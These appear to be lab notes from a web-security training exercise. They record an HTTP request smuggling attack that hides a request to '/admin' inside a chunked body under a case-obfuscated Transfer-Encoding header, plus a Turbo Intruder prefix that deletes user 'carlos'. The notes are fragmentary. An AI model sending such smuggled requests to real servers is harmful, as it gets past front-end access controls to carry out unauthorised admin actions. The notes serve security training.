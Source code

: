 `<a href="/admin/delete?username=carlos">Delete</a>`


---

##### And so I sent this one to repeater:

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 12
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
70
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


and added the line:

/delete?username=carlos

to /admin

GET /admin/delete?username=carlos


--

##### It's taking too long so send it to the turb truder


                           )
    # This will prefix the victim's request. Edit it to achieve the desired effect.
    prefix = '''
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1'''


---

##### SOLVED:
these _requests_ deleted carlos:

---